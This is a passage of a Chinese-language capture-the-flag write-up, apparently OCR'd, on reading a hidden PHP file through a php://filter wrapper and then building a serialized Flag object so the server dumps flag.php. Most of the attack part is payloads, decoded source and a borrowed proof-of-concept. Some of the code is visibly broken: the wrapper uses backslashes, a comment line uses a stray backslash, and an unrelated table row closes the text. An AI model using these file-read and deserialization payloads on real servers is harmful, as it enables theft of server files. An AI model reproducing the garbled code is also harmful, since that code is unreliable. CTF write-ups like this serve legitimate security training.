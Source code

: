 又因为之前提醒了又useless.php，所以现在用伪协议构造尝试访问一下
```
&file=php:\filter\read=convert.base64-encode\resource=useless.php
```
出现一段编码
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```
用base64解码得到一段php代码
```php
<?php  

class Flag{  \flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
?>  

```
有点看不懂，看wp说接下来是构造poc，但我不是很懂怎么构造，和前辈借一下
```
<?php  
 
class Flag{  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
$password = new Flag();
echo serialize($password);
?> 
```
输出
```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```
构造
```
&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

|郑林均|20|100|

